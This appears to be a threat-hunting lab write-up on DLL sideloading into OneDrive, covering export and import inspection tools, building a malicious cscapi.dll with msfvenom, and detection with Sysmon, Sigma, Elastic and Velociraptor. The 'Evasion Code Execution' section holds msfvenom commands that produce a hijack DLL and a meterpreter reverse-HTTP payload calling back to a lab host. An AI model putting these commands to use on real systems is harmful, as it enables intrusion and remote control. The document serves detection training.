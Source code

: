# Lab - DLL Hijacking
onedrive -> Appdata -> cscapi.dll

- writeable by all users
- hijackable

> EXPORTS -> use exported functions in your dll (csharp dll's don't have a dllmain function)

### 1. NIRSOFT ddlexport viewer

![image](./images/dll_exportviewer.jpg)

### 2. ROHITAB API Monitor
![image](./images/dll_apimon.jpg)

### 3. SYSINTERNALS Process Monitor
![image](./images/dll_procmon.jpg)

### 4. DUMPBIN (Visual Studio)

Check which function onedrive actually imports from VERSION.dll

Open a visual studio developer prompt:

![image](./images/dll_devprompt.jpg)

```bash
cd C:\Users\Threatadmin\AppData\Local\Microsoft\OneDrive
dumpbin OneDrive.exe /imports:VERSION.dll
```
![image](./images/dll_dumpbin.jpg)


# AUTOMTING DLL Sideloadble applications
<https://github.com/Cybereason/siofra>

![image](./images/dll_siofra.jpg)


<https://hijacklibs.net/>

https://juggernaut-sec.com/dll-hijacking/#Hijacking_the_Service_DLL_to_get_a_SYSTEM_Shell

![image](./images/dllsearch.jpg)

# C dll

building your dll

<https://github.com/Pascal-0x90/sideloadr>
<https://github.com/Pascal-0x90/sideloadr/compare/master...WS-G:sideloadr:master>


```bash
rundll32 shell32.dll,Control_RunDLL c:\thev\labs\DLL_Sideloading\version.dll
```

LoaderLock!!!

<https://www.prodefense.io/blog/dll-sideloading>

# Evasion Code Execution

Make sure OneDrive Last released build 25.070.0413.0001 is installed <https://go.microsoft.com/fwlink/?linkid=844652>
```bash
cat demon.x64.bin | msfvenom -p - -a x64 --platform windows -f dll -o cscapi.dll
```

STAGELESS PAYLOAD

```bash
msfvenom -p windows/x64/meterpreter_reverse_http lhost=10.0.0.5 lport=80 -f csharp
```

![Screenshot](./images/codeexec_medr.jpg)

# BYOB (Bring Your own Binary)
OLEVIEW

# DETECTION

<https://github.com/wietze/windows-dll-hijacking/tree/master>

Use sysmon to look for loading of known system32/syswow dll's that are :
- not signed
- not loaded from their usual locaction (system32/syswow)

<https://github.com/TactiKoolSec/SideLoadHunter>

```yaml
  <RuleGroup name="OneDrive_Sideload_Attempt" groupRelation="or">
    <ImageLoad onmatch="include">
      <Image condition="contains">onedrive.exe</Image>
      <ImageLoaded condition="contains">version.dll</ImageLoaded>
      <Signature condition="is not">Microsoft Windows</Signature>
    </ImageLoad>
  </RuleGroup>
```

Open ELEX (or eventviewer):

![image](./images/dll_hijack_elex.jpg)


>Custom detection rules for known Windows DLLs being loaded from non Windows path’s such as System32 could also be used to identify DLL Sideloading attacks. Doing this for non Windows DLLs however is not that easy, as there are too many different vendors and binaries/DLLs to track all of them.

OK Great - but ***are you collecting all those noisy logs*** (dll load events are super noisy) in your SIEM, probobly not as they are already in your EDR logs, hopefully.

SO now we need to write queries for MEDR, SentinelOne, Crowdstrike, PAN Cortex etc... This can be very annoying, so let's standardize our signatures, so we can use them on any platform.

SIGMA!!!

```yaml
title: OneDrive Version.dll Sideload Attempt
id: a9ab91a8-f50c-48e8-8478-17e119eed9c0 # can be generated with https://www.uuidgenerator.net/version4
author: Threathunting Academy
date: 2025/06/06
modified: 2025/06/06
status: experimental 
logsource:
  product: windows
  service: sysmon
detection:
  selection_image:
    Image|contains: 'onedrive.exe'
  selection_loaded_dll:
    ImageLoaded|contains: 'version.dll'
  filter:
    Signature|contains: 'Microsoft Windows'
  condition: selection_image and selection_loaded_dll and not filter
falsepositives:
  - Unknown
level: high
tags:
  - attack.defense_evasion
  - attack.t1574.001 # DLL Side-Loading
  - attack.t1574.002 # DLL Search Order Hijacking
  ```

  You can extend this list with all known signed dll's in SYSTEM32:

  ```powershell
  Get-AuthenticodeSignature -FilePath "C:\Windows\System32\notepad.exe" | Select-Object Path, Status, StatusMessage, @{Name='Issuer (O=)'; Expression={($_.SignerCertificate.Issuer -match 'O=([^,]+)') | Out-Null; $Matches[1]}} | fl
  ```

  ![image](./images/dll_hijack_pwshsig.jpg)

<https://sigconverter.io/>

Here's our ELASTIC query (as an example backend)


![image](./images/dll_hijack_sigma.jpg)

```powershell
from * metadata _id, _index, _version | where Image like "*onedrive.exe*" and ImageLoaded like "*version.dll*" and not Signature like "*Microsoft Windows*"
```

> UHOH : We don't have the logs in our SIEM, nor in our EDR solution's datalake - now what? Well we can still find logs on the endpoint (if the logs haven't rolled over), how do we get those logs remotely off of that endpoint (and preferably without exporting ALL eventlogs)?

# VELOCIRAPTOR can do this, and integrates with Sigma

> CAVEAT : Velociraptor doesn't like "CATEGORY" in sigma - so avoid using that! Other sigma backends do support that, such as ESQL and Splunk. If you have a sigma rule that has the `category` just delete it.

Velociraptor's Sigma implementation does not officially support the category: field in the logsource section of Sigma rules in the same way that traditional Sigma backends (like Elastic or Splunk) do.

Why category: Might Not Work in Velociraptor
Velociraptor uses a custom Sigma backend that maps logsource fields to VQL artifacts.
While product: and service: are commonly supported and mapped, the category: field is not consistently implemented or recognized.
If you include category: image_load, and there's no explicit mapping for that category in Velociraptor’s backend, the rule will silently fail to match any events.

<https://sigma.velocidex.com/docs/models/windows_base/>

<https://sigma.velocidex.com/docs/sigma_in_velociraptor/customize/>

![image](./images/veloci_sigma.jpg)

